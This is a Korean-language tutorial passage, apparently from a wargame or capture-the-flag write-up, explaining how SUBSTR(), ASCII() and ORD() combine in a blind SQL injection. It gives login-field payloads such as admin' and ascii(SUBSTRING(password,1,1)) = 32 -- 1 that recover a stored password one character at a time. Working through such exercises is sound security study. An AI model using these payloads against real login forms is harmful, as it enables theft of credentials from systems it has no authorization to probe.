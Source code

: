 `SUBSTR()`과 `ASCII()`함수 사용

**`SUBSTR()`**

```sql
SUBSTRING(문자열, 시작위치, 반환_문자열_길이)
```

```sql
SUBSTRING(password, 1, 1)
```

password 필드의 첫 번째 문자 추출

|

**`ASCII()`**

```sql
ASCII(문자열)
```

```sql
ASCII(SUBSTRING(password, 1, 1))
```

password 필드의 첫 번째 문자 추출 후 해당 문자의 ASCII 값 반환

|

|

[ASCII 코드표](https://i.namu.wiki/i/J5OY6lUdgjHTlVLVE1yuSUSVEY_khEqx1Wv-Bk_DZNybw4Er8uv7NkzL_8my5Jq0fR4X9LBEPRyLCcObaxweHBykrkVGOisg0AGPZWQI06slFZjN5jo7IC6mCka7jFePriWFlpYOdNIml2Vt6RLmpw.gif)를 확인해보면 0~31의 제어문자를 제외한 32~126까지가 비밀번호에 사용될 수 있는 문자임을 알 수 있음

```sql
admin' and ascii(SUBSTRING(password,비밀번호위치,1)) = 아스키코드 -- 1
```

```sql
admin' and ascii(SUBSTRING(password,1,1)) = 32 -- 1
```

```sql
admin' and ascii(SUBSTRING(password,10,1)) = 126 -- 1
```

`password`의 자릿수를 바꿔가며, 각 자리마다 아스키코드 32부터 126까지 직접 값을 바꿔가며 비밀번호를 알아낼 수 있음. 

로그인에 성공했다면 해당 자리의 비밀번호가 일치한다는 뜻

추가로, MySQL을 사용하기 때문에 `ascii`대신 `ORD`를 사용해도 됨.

`ascii()`: MySQL, SQL Server, PostgreSQL 등 다양한 DB에서 지원

`ORD()`: MySQL에서 지원

하지만 이렇게 수작업으로 알아내기엔 시간이 너무 오래 걸림. Python을 이용해 비밀번호를 알아내는 자동화 코드를 작성해야 함

|
